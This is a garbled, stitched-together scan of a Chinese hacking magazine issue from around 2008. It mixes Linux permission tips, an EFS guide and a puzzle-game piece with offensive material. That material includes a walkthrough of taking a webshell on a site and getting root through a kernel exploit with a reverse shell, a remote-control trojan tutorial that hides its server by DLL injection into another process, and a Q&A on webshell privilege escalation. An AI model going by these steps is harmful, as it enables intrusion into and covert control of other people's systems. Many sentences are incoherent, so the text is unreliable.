小提示：在 FreeBSD 系统中，用户管理和 Linux、NetBSD 及 OpenBSD 系统不一样，参数的位置也不相同，用户管理采用……可能有的读者会问，有读写权限那么自然可以删除文件，这是不是不平衡的事实啊？而实际的答案是不能。故意这么做，如：前辈的确保是我们。故意存在着这类文件服务器上。十几家公司经常有这样的要求。所以……

记得上面我提到的权限了吗？这时就用到它。在学校学习 Linux 时，老师大多会在网上查资料告诉你，文字如“黏滞位”，就是不知道她是想说什么。现在我就用这个权限在 Linux 下解决权限的大问题。我们用 `chmod og+t /home/design`，将共享目录设置成 `drwxrwx--T`。该权限可以将用户的文件以目录为准，而非允许多人删除权限，当然文件各不相同（root 用户除外）。我用 Windows 的“网上邻居”登录服务器，删除其中任意一个文件，如图 5，删除不掉吧。

图 6 二进制、八进制对应权限

实用八进制还可以设置特殊权限，比如 1755 是在目录上加上 t 的权限，它等于 `chmod o+t directory`；`chmod 4755` 是在文件或目录上加上 s 的权限，即 setuid 权限，它等于 `chmod u+s`。改文件权限非常简单，而且这里还和权限之间的用途有区别。

Unix 系统的权限可以是千变万化的，但是古老的 Unix 系统权限还存在很多弊端，对于复杂的权限控制，古老的 Unix 系统权限机制显得力不从心，下期将带给大家一种 Unix 系统的权限机制。

## 编辑点评

对于小菜来说，应该不理解“权限”的概念吧，文章也通俗易懂，文字讲得非常细，表达简单又是教程，很不错的应用，是对 Linux 进行多种权限判断和控制的主流应用。对于用户和权限是复杂的管理，或者是与“用户、组”概念有关，这里有一些常见的命令，比如大家都熟悉的 su、sudo 等，想熟了就能查出差异。

## 一、拿 webshell

昨天上网朋友发来一个站点，让我帮忙看看站点的安全性，大家看了一下网站的版权信息都没有修改，如图 1。网站用的是 php168 v4.0 系统，这套整合系统存在漏洞，具体漏洞利用方法就不多说了。我在《黑客手册》2007 年第 9 期的文章《php168 漏洞测试 + 实战拿服务器》中详细讲解了用漏洞拿到 webshell，这里就不赘述，利用漏洞很快拿到了 webshell，如图 2。操作系统是 Linux，平常玩 Windows 的系统提权的多，还没……

## 用 Linux 测试服务器

命令：`smbclient //10.0.0.252/design -U mike%mike`

```bash
smb: \> put /etc/passwd passwd
smb: \> ls
smb: \> mkdir mike
smb: \> quit
smbmount //10.0.0.252/design /mnt -o username=mike%...
ls -l /mnt/
```

## 用二进制改变文件权限

```bash
### ls -l passwd
### chmod 664 passwd
### ls -l passwd
```

## 用标记改变权限

```bash
### ls -l passwd
### chmod u+x,g+x,o+t passwd
### ls -l passwd
```

设置方式改变文件权限，我们看到改变权限，大多都是 `chmod` + 3 位权限数字；其实……

## 二、Linux 系统提权

Linux 本地提权和 Windows 本地提权的方法类似，总结归纳为以下几种：

- 系统本地提权漏洞提权，主要是利用系统本身存在的本地提权漏洞而进行提权。
- 第三方软件漏洞提权，主要是利用 FTP 服务器程序、邮箱服务软件 webmail、远程管理软件 radmin、pcAnywhere、VNC，以及数据库软件 SQL Server、MySQL 等配置上的缺陷导致产生的问题进行利用，从而提升权限。
- 替换系统程序服务，主要是利用文件权限设置的漏洞，以木马文件替换掉正常的系统服务，从而窃取系统权限。
- Web 服务执行命令提权，其实也可以归到第三种方法中，但是由于此功能特别普遍，在 Web 中经常使用。比如：Tomcat、Apache 等等，在安全防御薄弱的时候，可以利用服务器的本地漏洞而获得高权限，可以直接执行系统命令。

一般 Linux 系统本地提权用得最多的还是第一种，只要找到相应的本地溢出代码，成功率非常高。

这里我先拿出 Linux 下利用系统本身存在的本地提权漏洞尝试提升权限，以上面的那个 webshell 为例。

现在，我们登录 webshell，先来看看可不可以执行 cmd 命令，在“执行 cmd 命令”输入 `id`，会显示当前运行 Web 服务的用户，如图 3。

从图 3 中可以看出，当前运行 Web 服务的用户是 apache，用户组也是 apache，权限是一个普通用户权限。再来看看系统内核版本是多少，执行 `uname` 命令返回如图 4 的信息。

系统是 Linux 2.4.20 内核，这个内核比较早了，对于这种内核比较早的系统，可以利用内核溢出提权技术。由于内核溢出提权的成功率比较高，一般也比较容易。只要有内核溢出漏洞，就有可以利用内核溢出提权。再来执行一个 shell，要返回的第一个是 shell，x.x.x.x（这里 shell 的地址）99，成功返回一个 shell，如图 5。

现在，我们输入一个 Linux 2.4 内核的相关代码到服务器上去，首先对内核进行代码编译，执行命令“./24.2.4.c”，内核溢出代码编译成功，开始进行内核溢出，并执行命令“./24.2.4.4.c”，溢出结果已返回。当然，有部分成功，返回结果未完成，我们就执行命令“id”，返回信息如图 6。

现在已经是 root 权限了，说明内核溢出成功了，利用现在的权限可以做自己想做的事了。

### 三、总结

Linux 本地提权和 Windows 本地提权的方法都差不多，主要是看你对系统的熟悉程度和系统漏洞的理解了。文章主要讲的是 Linux 内核提权，内核提权在 Linux 中用得还是比较多的，主要是成功率比较高，一般的普通系统比较难找。用第三方软件提权的方法，在以后的文章中我也会把一些讲到。文章中有什么不懂的，可以来《黑客手册》论坛找我，myid 号是 rabbitfather，加我 QQ：3818718。

## 编辑点评

一般 Linux 的服务器，按其本身来说比较简单，黑客基本上可以为所欲为。但是他们平时做的，都是以大提权为主，实施内核提权和系统服务提升，个中的难度不高，所以专家认为 webshell 后对目标提权仍然依赖溢出代码，成功率还是挺高的。

## 我们为什么要用 Linux

## ASP 解释游戏编写与通关策略（二）

对开放源代码了解得并不深刻，因为 Windows 的毒害，你并不知道源代码的开放性有多么重要，程序员就会注意到。Windows 的产品似乎只会使用界面点击来使用，你不知道它的使用原理，也没有办法改进，发布为市场却已失去得到自己想到的个体化东西。

其实，Linux 是类 Unix 的操作系统。在你使用 Linux 之前，你可能对 Unix 的命令一无所知，当你使用了 Linux 之后，你了解了 Unix 的命令，也便可慢步地对计算机系统迈出了一步。

还有，Linux 是协作式开发。就像同学说的，也许你不知道，你的邻居是一个 Linux 内核的黑客，你孩子的老师可能在为 Linux 编写软件，他的妈妈说不定正在为新的网卡编写设备驱动程序。Linux 使得研发变得由时间、天数和延期与人们分担他们碰到的工作。

还有，Linux 比 Windows 支持更广泛的处理器，大多数 Linux 发行版能够运行在基于 386 的计算机上，直到现在的双核处理器，以后的 CPU 更不用说了。

还有，广泛的网络支持。由于 Unix 开发团队的强大，早在 Microsoft 的 Windows for Workgroups 提供 `net start` 命令之前，Unix 就已经网络化了。

还有，比如互操作性，越来越强大的应用等等。

关于 Linux 的软件，很多人都知道，它是一个到处都可能会有金矿的地方。这个吉祥物是由 Larry Ewing 定义出的 Linux 形象之一，Larry Ewing 设计的企鹅也对应了它本性的 Linux 前景。

你要不要选择使用 Linux 呢？下面回答这 12 个问题，看看这 12 个问题，将帮助你进一步明白：到底是继续使用 Windows，还是选择 Linux 的怀抱。

专家们普遍认为，克服那些跟过多步骤有关的问题，是认识到自己具有的依赖特征。根据这种观点，下面有 12 个问题用以确定你是否处于痴迷的状态：

- 1. 你的 Windows PC 运行流畅，但它能坚持几天不关机？
- 2. 你希望人们像在自定义的程序系统里那样轻松运行程序，但是它们实际上撑不了几天。你会发现，只要你运行 Windows，Windows 就可能随时崩溃。
- 3. 你是否了解 Windows 的一个版本到另一个版本，并一直想把新问题当成旧问题？
- 4. 在过去的一年中，你是否因为系统崩溃而不得不再次下载和安装系统？
- 5. 你或许想用 Linux 的操作系统替代 Windows，因为 Windows 的臃肿会让人感到不适。不过，在你没有用 Linux 之前，可能你会发现 Windows 的桌面工具与界面变得更加复杂。
- 6. 你在过去的一年中，是否遇到过关于 Windows 应用程序的问题？
- 7. 你在家庭或工作中通过你的机器处理相关任务时，是否尝试自己去解决？
- 8. 你是否嫌 Windows 系统功能不够强大，而试图通过非常频繁地单击程序和图标来获取自己对应用程序的控制权？
- 9. 你是否总是在 Windows 中不停地点击某些东西？
- 10. 你是否发现这样的行为只在某些软件中才更容易？
- 11. 你会对一些窗口有依赖感吗？比如总想单击鼠标的时候？
- 12. 你需要经常点击 Windows 程序里某些菜单，这才可以使用它们吗？

## 【诀窍初级】~2008.05

（以下内容为版面正文，包含多处关于 ASP/脚本加密、跳转、验证码与防复制等技巧的说明。）

## 第四关

这一关我们直接伪造一个图片，在记事本中写上“用户名是 liejie，密码是 www.liejie.com”，然后另存为 1.jpg，在 four.html 中将图片嵌进去。代码为：

```html
</img>
```

- 请输入用户名：
  `<input type="text" name="user" length=15>`
- 请输入密码：
  `<input type="password" name="pass" length=15>`

```asp
<%
dim a,b
b=request.form("pass")
a=request.form("user")
if user="liejie.com" then
  response.write("<script>alert('密码输入有误，请重试！');history.back(-1);</script>")
else
  response.write("<script>alert('用户名和密码错误！');history.back(-1);</script>")
end if
%>
```

## 第五关

这一关在接收页面中有加密过的注释代码，利用 JavaScript 脚本加密，将“<!--第六关的地址是 666666.asp! -->”加密两次过后的语句是：

```html
<script>
...
</script>
```

过这一关时同样需要禁用脚本，然后利用解密页面对代码进行解密，我提供给大家一个解密页面地址 http://lijiejie.com/amp/tools/amp.html。其他许多网站也都能进行这类解密。

## 第六关

这一关用到了一个 VB 程序，将一个按钮的 `Enable` 属性设置为 `False`，也就是禁用此按钮。程序运行后如图 2 所示。

然后我们将解密程序的控件地址加到网页上。另外，为了增加一点难度，我还设置了一个验证码，在本地页面中的加密框中有提示，与上一关采用同样的加密方式。

```vb
...
response.write("<script>alert('密码错误，请更正!');history.back(-1);</script>")
...
```

## 第七关

本关与第四关有相通之处，都是将密码写到图片中去，然后第四关的图片无法正常显示，很容易让人看出异常。这一关利用 `copy` 命令将图片和文本合并，合并之后的图片可以正常显示。在记事本中写上密码信息，然后保存为 1.txt，再把一张图片命名为 1.jpg，将图片和文本都放在 C 盘目录下，然后在 cmd 中输入 `copy` 命令（原文页内示例为将 1.txt 与 1.jpg 合并生成 2.jpg）。

这两关用到的方法是在网页中对图片或文本做合并/隐藏处理，再通过文件名与路径的配合得到目标密码信息。

## 总结

这几关通过把提示码、密码、链接或注释等信息隐藏在图片、脚本、VB 程序及网页源码中，并使用解密、合并、禁用脚本等手段来实现。

编辑点评：图片与解密工具结合是很常见的方式，虽然简单，但仍能起到“出其不意”的效果。

## 简简单单编写远程控制软件

从本文您可以学到：

- 简单了解 BCB 及 VC 的开发方法
- 学习 TCP 协议的握手过程
- 利用 TCP 协议开发简单的远程控制程序

近年来，我国社会学界讲机时，发现一个普遍存在的问题，他们在学校都学习过日语，看看有着不平稳的学样式，而那些讲汉语的人以国学的方法在另一段发展，变更加将日常的通信理解……（原文为扫描件，局部字迹较模糊）

## 编写服务器所需掌握的基础知识

- 创建套接字（socket）
- 将套接字绑定到一个本地地址和端口上（bind）
- 将套接字设置为监听状态，准备接受客户端的请求（listen）
- 将客户端的请求队列，进行一个新的与客户端的连接（accept）
- 用返回的套接字与客户端进行通信（send/recv）
- 关闭套接字

```c
SOCKET socket(int af, int type, int protocol);
int bind(SOCKET s, const struct sockaddr FAR *name, int namelen);
int listen(SOCKET s, int backlog);
SOCKET accept(SOCKET s, struct sockaddr FAR *addr, int FAR *addrlen);
int recv(SOCKET s, char FAR *buf, int len, int flags);
int send(SOCKET s, const char FAR *buf, int len, int flags);
int closesocket(SOCKET s);
```

`sockaddr` 结构体的指针变量，由于该地址结构是为所有地址族建立的，这个结构可能随着所使用的网络协议不同而不同。MSDN 中 `sockaddr` 的定义如下：

```c
struct sockaddr {
    short sa_family;
    char  sa_data[14];
};
```

`namelen`：指定参数二的结构体长度。`int listen(SOCKET s, int backlog);` 监听即指定连接请求，用于面向连接服务，表明它愿意接收连接，其参数说明如下：

`backlog`：等待连接队列的最大长度。

`SOCKET accept(SOCKET s, struct sockaddr FAR *addr, int FAR *addrlen);` 接受客户端的连接请求，其参数说明如下：

- `s`：监听套接字描述符；
- `*addr`：接收连接实体的地址信息；
- `*addrlen`：包含所返回的地址信息的长度。

`int recv(SOCKET s, char FAR *buf, int len, int flags);` 接收以及发送数据的函数，其参数说明如下：

- `s`：套接字描述符；
- `buf`：保存接收以及发送信息的缓冲区指针；
- `len`：缓冲中的数据长度；
- `flags`：含义参考 `recv()` 系列函数说明。

`int send(SOCKET s, const char FAR *buf, int len, int flags);` 接收以及发送数据的函数，其参数说明如下：

- `s`：套接字描述符；
- `buf`：保存接收以及发送信息的缓冲区指针；
- `len`：缓冲中的数据长度；
- `flags`：含义参考 `send()` 系列函数说明。

`int closesocket(SOCKET s);` 关闭所指定的套接字，其参数说明如下：

- `s`：套接字描述符。

## 编写客户端所需掌握的基础知识

编写客户端程序，一般的步骤如下：

- 创建套接字（socket）；
- 向服务器发出连接请求（connect）；
- 和服务器进行通信（send/recv）；
- 关闭套接字。

可以看出与服务端程序的编写不同，客户端程序在编写中省略了一些步骤，但是其中有一项 `connect()` 函数需要介绍。

```c
int connect(SOCKET s, const struct sockaddr FAR *name, int namelen);
s：socket() 函数调用返回的用于本次连接的套接字描述符；
*name：指定了该套接字的本地地址信息，是一个指向 sockaddr 结构体的指针变量；
namelen：指定了该套接字的长度。
```

## 编写服务器程序

首先是获取服务器端的一些信息，如内存、系统路径、系统版本、硬盘信息等。下面分别介绍以下四种功能的实现方式。

## 获取服务器硬盘信息函数 `GetSysDiskSpace()`

```c
void GetSysDiskSpace()
{
    int        i;
    char       DiscType;
    char       RootPath[4];
    DWORD      SectorsPerCluster;
    DWORD      BytesPerSector;
    DWORD      NumberOfFreeClusters;
    DWORD      TotalNumberOfClusters;
    DWORD      FreeSpace;
    DWORD      TotalSpace;

    int iFreeSpace = 0;
    int iTotalSpace = 0;

    for (i = 2; i <= 'z' - 'a' + 1; i++)
    {
        RootPath[0] = 'c' + i;
        DiscType = GetDriveType(RootPath);
        if (DiscType == DRIVE_FIXED)
        {
            GetDiskFreeSpace(RootPath, &SectorsPerCluster,
                             &BytesPerSector, &NumberOfFreeClusters,
                             &TotalNumberOfClusters);
            FreeSpace = BytesPerSector / 1024 * SectorsPerCluster / 1024 * NumberOfFreeClusters;
            TotalSpace = BytesPerSector / 1024 * SectorsPerCluster / 1024 * TotalNumberOfClusters;
            iFreeSpace += FreeSpace;
            iTotalSpace += TotalSpace;
        }
    }

    sprintf(sendBuf_DisSpace,
            "当前服务器硬盘空间总大小为：%8dMB\n硬盘剩余空间大小为：%8dMB",
            iTotalSpace, iFreeSpace);
}
```

## 接着在 VC++ 中建立 `Win32 Application` 工程

并添加 C++ 源文件，首先需要建立在程序中需要用到的全局变量，以及程序中运用 API 函数所需要的“.lib”文件，然后在主函数中协商直接写程序，并依据“编写服务器端代码”的基础知识中所介绍的步骤，编写主函数代码。

```c
int APIENTRY WinMain(HINSTANCE, HINSTANCE, LPSTR, int)
{
    // TODO: Place code here.
    WORD  wVersionRequested;
    WSADATA wsaData;
    int   err;

    wVersionRequested = MAKEWORD(1, 1);
    err = WSAStartup(wVersionRequested, &wsaData);
    if (err != 0)
        return 0;

    if (LOBYTE(wsaData.wVersion) != 1 || HIBYTE(wsaData.wVersion) != 1)
    {
        WSACleanup();
        return 0;
    }

    SOCKET sockSrv = socket(AF_INET, SOCK_STREAM, 0);

    SOCKADDR_IN addrSrv;
    addrSrv.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
    addrSrv.sin_family = AF_INET;
    addrSrv.sin_port = htons(6000);
    bind(sockSrv, (SOCKADDR*)&addrSrv, sizeof(SOCKADDR));
}
```

## 获取服务器系统路径名函数 `GetSysRoad()`

```c
void GetSysRoad()
{
    char road[255];
    GetSystemDirectory(road, 255);
    sprintf(sendBuf_Road, "当前服务器系统路径名为：%s", road);
}
```

## 获取服务器系统版本函数 `GetSysVer()`

```c
void GetSysVer()
{
    char *ShellType;
    DWORD winVer;
    OSVERSIONINFO osvi;

    winVer = GetVersion();
    if (winVer < 0x80000000)
    {
        memset(&osvi, 0, sizeof(OSVERSIONINFO));
        osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);

        GetVersionEx(&osvi);
        if (osvi.dwMajorVersion == 4)
        {
            ShellType = WindowsNT4;
        }
        else if (osvi.dwMajorVersion == 5 && osvi.dwMinorVersion == 0)
        {
            ShellType = Windows2000;
        }
        else if (osvi.dwMajorVersion == 5 && osvi.dwMinorVersion == 1)
        {
            ShellType = WindowsXP;
        }
        else if (LOBYTE(LOWORD(winVer)) < 4)
        {
            ShellType = Windows32;
        }
        else
        {
            ShellType = Windows95;
        }
    }
}
```

## 珠玑全攻略三重门 2008.05 ——【快码加编】

左侧为网络通信与命令处理相关的伪代码：先 `listen(sockSrv, 5)` 进行监听，循环中 `accept` 接收连接；随后通过 `recv(sockConn, recvBuf, 100, 0)` 接收数据，并用 `strcmp(recvBuf, "GetSysVer")`、`strcmp(recvBuf, "GetSysUser")`、`strcmp(recvBuf, "GetSysNeicunInfo")`、`strcmp(recvBuf, "GetSysDiskSpace")`、`strcmp(recvBuf, "GetSysRoad")` 等命令进行分支判断，分别调用 `GetSysVer()`、`GetSysUser()`、`GetSysNeicunInfo()`、`GetSysDiskSpace()`、`GetSysRoad()`，并通过 `send(sockConn, sendBuf_*, strlen(...), 0)` 返回结果；最后 `closesocket(sockConn)` 并 `return 0;`。

最后编译成 Release 发布版本，服务端就制作好了。上面所介绍的服务端程序是用 EXE 可执行文件的模式运行的，这样的方式很容易被发现；而我们可以把它编写成“DLL”动态链接库程序，通过注入加载到其他的宿主进程中实现一定的隐藏效果，代码如下：

```c
#include <stdio.h>
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <tlhelp32.h>

void EnableDebugPri(void) { ... }
void CheckError(int intNum, char* errMsg) { ... }

// 获取目标进程ID
DWORD dwThreadId;
```

```c
HANDLE hRemoteThread, hRemoteProcess;
DWORD dwCreate, dwStackSize, dwRemoteProcessId;
PVOID pszLibFileRemote;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                     LPSTR lpCmdLine, int nCmdShow)
{
    EnableDebugPri();
    DWORD GetProdID(char szProcName[]);
    int iReturnCode;
    char lpDllFullPathName[MAX_PATH];
    WCHAR pszLibFileName[MAX_PATH + 1] = {0};

    dwRemoteProcessId = GetProdID("xkedit.exe");
    strcpy(lpDllFullPathName, "c:\\...\\xk.dll");
    // 通过 DLL 文件全部路径的 ANSI 转换成 UNICODE 的形式
    MultiByteToWideChar(...);
    OpenProcess(...);
    CreateThread(...);
    WaitForSingleObject(...);
    VirtualFreeEx(...);
    CloseHandle(...);
    return 0;
}
```

```c
// 获取远程进程ID
// 如先找出进程对应的进程名，exe 文件
DWORD GetProdID(char szProcName[])
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe = {sizeof(pe)};
    DWORD dwProdID = 0;
    BOOL bOk = Process32First(h, &pe);
    while (bOk) {
        bOk = Process32Next(h, &pe);
        LPCTSTR lpExeFile = strrchr(pe.szExeFile, '.');
        if (szProcName != lpExeFile) ...
    }
}
```

右侧代码继续描述通过 `CreateRemoteThread`、`LoadLibraryW`、`GetProcAddress`、`WriteProcessMemory` 等 API 向目标进程注入 DLL 的流程，包括打开远程进程、分配内存、写入 DLL 路径、创建远程线程并等待执行结束，然后释放内存、关闭句柄。

## 【快码加编】2008.05

（页面内容为一篇关于远程控制软件/客户端编写的技术文章，包含代码示例、界面截图与说明文字。）

```c
void CheckError(int iReturnCode, int iErrorCode, char *pErrorMsg);
void EnableDebugPriv(void);
void TForm1::Button1Click(TObject *Sender);
void TForm1::ReadyToWork();
// 以及多段客户端/服务端 Socket、WSAStartup、connect、send、recv 等相关代码
```

然后在图1所示的界面中双击“获取服务端内存信息”按钮，添加相应功能，代码如下。

```c
void TForm1::Button1Click(TObject *Sender)
{
    // 获取服务端内存信息
    TForm1::ReadyToWork();
    // 初始化文本框
    ipAddress->Text = ...;
    // 建立连接、发送命令、接收数据
    connect(...);
    send(...);
    recv(...);
    Memo1->Lines->Add(recvBuf);
    closesocket(sockClient);
    WSACleanup();
}
```

依此类推，添加另外三个按钮的响应函数即可。最后编译 Release 版发布程序。

## 使用此远程控制软件

先在欲监控的计算机中运行此远控的服务端程序，接着打开新编写的客户端，填写服务端的 IP 地址信息，然后点击按钮发送相应的命令。


其结果将在客户端左侧的文本框中显示出来，如图2所示。

## 小结

通过上面的介绍，此款简单的远程控制软件就被制作出来了。文中所介绍的功能是比较少的，远远不够目前流行的远程控制软件，读者可根据自己的需要以及自己的兴趣所掌握的知识进行补充，逐渐增强其功能。建议初学者先从简单入手，学会分析与解决问题，最后在不断地练习中提升。

编辑点评：编写远程控制的软件程序也已经发表了很多，本文是其中一篇，但本文作者试图用 BC 和 VC 联合打造，走出了另一条路。文中程序结构清晰，适合初学者学习。

# CRACKER

## 86 的厄运感言：

最近比较关心公司问题，人民币成“7”，进入“6”时代了，不知道是好还是不好。生活方面，最关心的当然是钱的问题，现在的物价还是非常高，一块元钱也变得更便宜了，钱实在是花不了多少了。时代总是在变化的，尤其是科技方面，随着技术的日益发展，环境和流行情况也会千变万化。现在社会给你个新机会，会不会给你个小惊喜，还是要多掌握新的动力。对于每一个新事物，根本不知如何对待，所以很多时候世界本无规律，包容感和心灵是最重要、最基本的东西。新的东西其实都像一类的，所以我们放在前瞻性看，会统一其意义和义务，为大家提供更多出色的文章。

## 每月热点新闻

- 1. 目前，从香港论坛了解到，古智会论坛多位高手共同打造的《加密与解密（第二版）》已经确定封面和目录，近期应该进入校版和排版阶段了。据了解，这本书汇集了香港软件安全论坛多位高手的平时学习心得，值得用心而行。
- 2. 近期，前前后后历时两年多的时间才得以完成。从目录看来，这次内容确实比之前丰富了很多，图书也明显好评多多。


## 每月跟踪资源

越来越多的人开始使用 IDA 分析调试器。它提供了新的高效架构，而且对于静态分析更具有特殊的功能。高手都使用 IDA，OD，所以可以看到其强大的功能。这个分析工具是非常必要的，这一次给大家推荐一本 IDA 的基础翻译文章，希望大家会喜欢。附件中，我给大家附上了网页和 PDF 版，希望对大家有用。


## 使用 EFS 来保护文件

通过本文你可以学习到：

- 1. 了解 EFS 方面的相关知识
- 2. 使用 Windows 的 EFS 来加密和解密文件

EFS（Encrypting File System，加密文件系统）是一个 Windows 2000 系列、Windows XP 专业版以及 Windows .NET 提供的透明文件加密服务，它是以公共密钥加密为基础，使用了 Windows 的 CryptoAPI 密钥，对 NTFS 卷上的文件和数据都可以直接加密保存，在很大程度上提高了数据的安全性。EFS 可以使文件具有很强的保密性而不提供完整保护，EFS 提供可存取的存储，系统管理员可以恢复用户加密的数据。

EFS 加密是基于公钥加密的。在使用 EFS 加密文件或文件夹时，系统首先会生成一个由伪随机数组成的 FEK（File Encryption Key，文件加密钥），然后将 FEK 和数据使用标准算法创建加密后的文件，并把它存储到磁盘上，同时删除加密文件的原始文件。随后系统利用你的公钥加密 FEK，并把加密后的 FEK 存储在同一个加密文件中。在访问被加密的文件时，系统首先利用当前用户的私钥解密 FEK，然后利用 FEK 解密出文件。在首次使用 EFS 时，如果用户还没有这对公钥/私钥对（统称为主密钥），系统会先生成密钥，然后加密数据。

EFS 加密系统对用户是透明的。也就是说，用户加密了某一数据，用户对这些数据的访问将是完全允许的，并不会受到任何限制。而其他非授权用户试图访问加密过的数据时，就会收到“访问拒绝”的错误提示。EFS 的加密对用户通过程序在登录 Windows 的时候，只要登录到 Windows 中，就完成了对任何一个被授权的加密文件的访问。

- （1）用户加密文件及解密文件夹都非常方便。
- （2）访问加密的文件会非常轻松。如果用户将某一个已加密文件转移或复制，而用户的解密权限仍存于这个文件，打开时将恢复到普通文件，用户依然能够对这个文件进行加密。
- （3）加密后的数据也不能通过拷贝到别的机器来保存或读取（前提要在 Windows 2000/XP 下进行）。
- （4）EFS 与 NTFS 紧密关联起来，当创建访问文件时，不论该数据是加密文件还是文件夹，EFS 也会将其存储文件进行加密；EFS 相关文件在 FAT/FAT32 卷上则会返回拒绝。

## 一、加密文件或文件夹

1. 设置属性：选中一个需要加密的文件，然后右键单击，在菜单中选择“属性”，出现如图1所示的属性设置对话框，然后单击“高级”按钮。

2. 在“高级属性”对话框中，选中“压缩或加密属性”下的“加密内容以便保护数据”复选框，如图2所示，然后单击“确定”按钮就完成设置。

说明：

- (1) 如果是使用 EFS 来加密文件夹，其加密每个文件的步骤基本一样，只不过在选定“加密内容以便保护数据”复选框后，在其属性界面中点击“确定”按钮后，会出现如图3所示的对话框。
- (2) 单个文件或者文件夹被加密后，其名称和属性会显示为绿色，这也是加密文件与非加密文件的区别。
- (3) 最重要的一步，是要保存好导出的私钥和证书，并记住私钥的密码，否则以后数据无法恢复。
- (4) EFS 的加密系统只能在微软的 NTFS 格式的磁盘下使用，如果此卷格式为 FAT 或者 FAT32，则可以使用如下命令转化：`convert d: /fs:ntfs`，注意此命令是不可逆的。
- (5) 加密目录不能是压缩文件夹。
- (6) 以后由自己签署、建立的文件会自动加密；在向 NTFS 格式的硬盘拷贝文件时，文件保持加密不变；在向 FAT 格式的硬盘拷贝文件时，文件会被解密。
- (7) EFS 提供了在 DOS 命令提示符下进行加密。输入“CIPHER”可显示 NTFS 分区上的目录和文件的加密状态，如果文件或者文件目录使用了 EFS 加密，则会在文件或者目录名称前显示“E”表示已经加密，否则显示“U”表示未加密。其完整参数如下：

```text
CIPHER [/E] [/D] [/S:directory] [/A] [/I] [/F] [/Q] [/H] [pathname]
CIPHER /K
CIPHER /R:filename
```

- /A 在文件及目录上操作。如果父目录没有加密，当加密文件被修改后，它可能被解密。建议您给此文件和父目录加密。
- /D 将指定的目录解密。会标记目录，这样随后添加的文件就不会被加密。
- /E 将指定的目录加密。会标记目录，这样随后添加的文件就会被加密。
- /F 强制在所有指定的对象上进行加密操作，即使这些对象已经被加密。默认会跳过已经加密的对象。
- /H 显示带隐藏或系统属性的文件。在默认方式下，会忽略这些文件。
- /I 即使发生错误也继续执行指定的操作。在默认方式下，CIPHER 在遇到错误时会停止。
- /K 为运行 CIPHER 的用户创建新的加密密钥。如果选择了此选项，会忽略所有其他选项。
- /N 此选项只能与 /U 同时使用。这样可阻止更新密钥。此选项用于查找本地磁盘上所有加密文件。
- /Q 只报告最重要的信息。
- /R 生成一个 EFS 恢复代理密钥和证书，然后将它们写入一个 .PFX 文件（包含个人证书和私钥）。管理员可以将该文件导入 EFS 恢复文件夹，从而创建恢复代理，并导入 PFX 来恢复单个文件。
- /S 对目录及其子目录和文件执行指定操作。
- /U 尝试更新本地磁盘上所有加密文件。如果用户文件加密密钥部分或者恢复代理的密钥有效，这会将其更新为当前的密钥。
- /W 从卷上所有未加密的目录中删除数据。
- /X 将 EFS 证书备份到文件中。现在该文件中包含用户的 EFS 证书和密钥；如果你的目录不易查找，可以使用带有 /S 参数的路径和目录名称。
- pathname 指定一个模式、文件或目录。

EFS 还提供了对 DOS 命令提示符进行加密。

## 技巧

- (1) 如果想让用户在计算机上的用户不能对某个文件设置 EFS 加密，可将该文件的“压缩或加密属性”页中的“高级”改为“系统”或“只读”文件夹。
- (2) 如果是对单个文件夹使用 EFS 加密，可以在该文件夹内创建一个 `desktop.ini` 文件，其中添加如下内容：

```ini
[Encryption]
Disable=1
```

## 二、导出私钥和证书

（1）添加证书。单击“开始”，在“运行”中输入“mmc”，打开控制台。在“文件”菜单中选择“添加/删除管理单元”，在“添加/删除管理单元”窗口中选择“证书”，然后单击“添加”，在“添加独立管理单元”对话框中选择“我的用户帐户”，然后单击“完成”按钮完成证书的添加。

（2）打开导出证书向导。单击“证书－当前用户”→“个人”→“证书”，选中当前用户，然后右键单击，在弹出的菜单中选择“所有任务”→“导出”，打开“证书导出向导”窗口，如图5所示，然后单击“下一步”按钮继续。

（3）私钥导出设置。在“导出私钥”中选择“是，导出私钥”，如图6所示，然后单击“下一步”。在“导出文件格式”中使用默认设置，然后单击“下一步”按钮。

（4）设置私钥密码。私钥导出时需要设置个人密码，如图7所示，然后单击“下一步”。

（5）选择证书保存位置。在“要导出的文件”中设置需要保存的文件名，单击“浏览”按钮可以设置保存文件的路径，然后在该路径下输入一个保存个人证书的名称，文件后缀默认为“pfx”，如图8所示，然后单击“下一步”并单击“完成”按钮完成证书的导出。

## 三、加密私钥和证书的导入

（1）添加证书。该操作跟“加密私钥和证书的导出”中添加证书类似，在此就不赘述。

（2）打开导入证书向导。单击“证书－当前用户”→“个人”→“证书”，然后右键单击，在弹出的菜单中选择“所有任务”→“导入”，打开“证书导入向导”窗口，然后单击“下一步”，在“要导入的文件”中选择刚才导出的私钥和证书文件，然后单击“下一步”按钮。

（3）选择“证书存储”方式。在“证书存储”中选择保存证书的系统区域，在本案例中选择“将所有的证书放入下列存储区”→“个人”，然后单击“下一步”按钮继续。

（4）完成证书的导入。在“正在完成证书导入向导”中单击“完成”按钮，完成证书的导入；证书导入成功，则会显示“导入成功”的提示。

## 四、小结

EFS 具有各种特性，为企业或个人用户提供了方便的安全解决方案。本文介绍了 EFS 的相关知识，并通过实例介绍了如何使用 EFS 来对文件以及文件夹进行加密和解密，最后介绍了个人私钥和证书的导入和导出，方便用户在系统发生意外的情况下仍然能够打开使用 EFS 加密的文件或者文件夹。

## Q&A

Q：我装了台电脑，自己装的 XP 系统，一直用得都很好，但是最近每次开机或加载文件时都会提示找不到 C 盘的一个文件，哪位可以告诉我该采取什么办法吗？

A：很多读者都问过这个问题，这应该是因为 Windows 在加载时启动的程序由于某些原因，如无意删除、装软件等，造成相应的启动项异常，从而导致系统提示找不到文件。

Q：webshell 提权问题

默认不执行 CMD 命令，上传了一个压缩的 CMD 到一个 everyone 用户可写入、可执行的目录。开了 3389 但无法连接，猜测做了 IP 访问限制，所以又上传了 1 个“变态”反连的连接程序，但在执行 CMD 命令时，显示“超过了文件长度”。为什么？在 cmd、aspx 文件里看到用户名和密码，也无法连接 1433，口令却是对的。

A：按你描述的情况，在可写目录中的 cmd 目录最具利用机会，但是仅仅是利用 IIS 用户的 guest 权限。服务器开启 3389 但无法连接，这说明并不完全是 IP 访问限制，可能由某个本地原因导致。如果要进一步利用，通常需要结合具体环境进行排查。

